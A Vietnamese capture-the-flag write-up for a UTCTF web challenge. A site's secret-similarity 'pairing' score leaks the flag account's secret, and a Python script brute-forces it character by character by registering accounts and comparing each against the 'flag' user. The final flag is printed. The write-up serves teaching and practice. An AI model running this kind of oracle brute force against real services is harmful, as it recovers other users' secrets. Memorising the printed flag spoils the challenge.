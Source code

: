 ![image](https://github.com/user-attachments/assets/26d93f95-ce2b-4fc3-84d1-461839c2aacb)

Đề bài cho một trang web có các chức năng sau

- Tạo một tài khoản và 1 secret với tài khoản đó (Sign up)
- So sánh sự giống nhau của secret giữa 2 tài khoản (Look up a specific pairing)
- Liệt kê list các tài khoản có secret gần với tài khoản đang tìm kiếm nhất (Check your top matches)

Thực hiện tạo 2 tài khoản `user1`, và `user2` đều có secret là `abc` và so sánh sự giống nhau, kết quả là 0 do 2 tài khoản này có secret giống nhau
![image](https://github.com/user-attachments/assets/933c79b8-578b-4f7c-aaea-a40c214316d1)

Thực hiện so sánh `user1` với  `user3` có secret là `xyz` thì nhận được:
![image](https://github.com/user-attachments/assets/1a610edc-2e6b-48be-b353-4fbbc0cf8f08)

Nếu secret càng giống nhau thì paring giữa 2 tài khoản càng nhỏ, khi bằng 0 thì secret của 2 tài khoản giống nhau. Trong hệ thống có tài khoản flag, secret của tài khoản này chính là flag của bài, thực hiện viết script để bruteforce secret của tài khoản này theo điểm paring với tài khoản flag.

```
import requests
import re
import string

# flag = 'utflag{On3_sT3P_4t_4_t1m3}'
flag = 'utflag{'
i = 1
while(1):
    mi = 99999999999
    flagi = 'a'
    for x in string.printable:
        user = f"ptit{i}"
        print(user, end = ' ')
        url = "http://challenge.utctf.live:3725/index.php"
        data1 = {
            "username": user,
            "password": flag + x
        }
        data2 = {
            "username1": "flag",
            "username2": user
        }

        headers = {
            "Host": "challenge.utctf.live:3725",
            "Cache-Control": "max-age=0",
            "Accept-Language": "en-US,en;q=0.9",
            "Origin": "http://challenge.utctf.live:3725",
            "Content-Type": "application/x-www-form-urlencoded",
            "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "Referer": "http://challenge.utctf.live:3725/index.php",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "keep-alive"
        }
        requests.post(url, data=data1, headers=headers)
        response = requests.post(url, data=data2, headers=headers)

        # Trích xuất số từ đoạn văn bản phù hợp
        match = re.search("The pairing for flag and " + user + " is: (\d+)", response.text)
        try:
            otp = match.group(1)
            print(otp)
            otp = int(otp)
            if(otp < mi):
                mi = otp
                flagi = x
        except:
            print("Không tìm thấy OTP trong kết quả trả về.")
        i += 1
    flag += flagi
    print(flag)
```

> **Flag :** utflag{On3_sT3P_4t_4_t1m3}
